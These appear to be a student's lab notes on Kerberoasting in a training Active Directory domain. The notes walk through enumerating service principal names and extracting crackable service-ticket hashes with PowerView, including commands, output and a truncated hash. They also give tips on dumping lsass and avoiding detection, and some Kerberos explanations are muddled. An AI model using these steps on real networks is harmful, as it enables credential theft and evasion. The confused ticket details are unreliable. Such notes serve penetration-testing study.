 You want the ticket with the **Server** line matching "krbtgt" for kerberoasting. #0 and #1 are TGTs, #2 is a TGS. The hash of `krbtgt` was used to encrypt 1 and 2. 

You can force a downgraded encryption on a ticket, blue tamers should alert on this as **it is the only plausible way to know if someone is kerberoasting on your domain.** Qasim tells his tools not to downgrade because it is the only way to get caught. Dumping `lsass` is how you get these tickets. 

Want new tickets? Do `klist purge` and access things. None of this was malicious until you start dumping `lsass` and likely won't be detected until investigating the EDR after the fact. 


So how do we go about getting service principle names we might want to try and crack for?

```Bash
PS C:\Tools\active_directory> Get-DomainUser | Select name, serviceprincipalname

name           serviceprincipalname
----           --------------------
Administrator
Guest
DefaultAccount
krbtgt         kadmin/changepw
Offsec
Jeff_Admin
Adam
iis_service    HTTP/CorpWebServer.corp.com
sql_service    MSSQLSvc/CorpSqlServer.corp.com:1433
```

Two of these have service principle names we can use. `iis_service` and `sql_service`. The easiest way to do this (when in PowerView) is the `Invoke-Kerberoast` module. 

```Bash
PS C:\Tools\active_directory> Invoke-Kerberoast -Verbose
VERBOSE: [Get-DomainSearcher] search base: LDAP://DC01.CORP.COM/DC=CORP,DC=COM
VERBOSE: [Get-DomainUser] Searching for non-null service principal names
VERBOSE: [Get-DomainUser] filter string: (&(samAccountType=805306368)(servicePrincipalName=*))


SamAccountName       : iis_service
DistinguishedName    : CN=iis_service,OU=ServiceAccounts,OU=CorpUsers,DC=corp,DC=com
ServicePrincipalName : HTTP/CorpWebServer.corp.com
TicketByteHexStream  :
Hash                 : $krb5tgs$23$*iis_service$corp.com$HTTP/CorpWebServer.corp.com*$9DBA6FAC23FB2142C5F5121B48A592F9$7CEF3473BB607AD1C0AE131...

The rest of this is a hash then another ticket
```

And that is it. We have a hash. 
- Type of the hash
- SamAccountName
- Actual Hash
	- $ all the way through the end. 

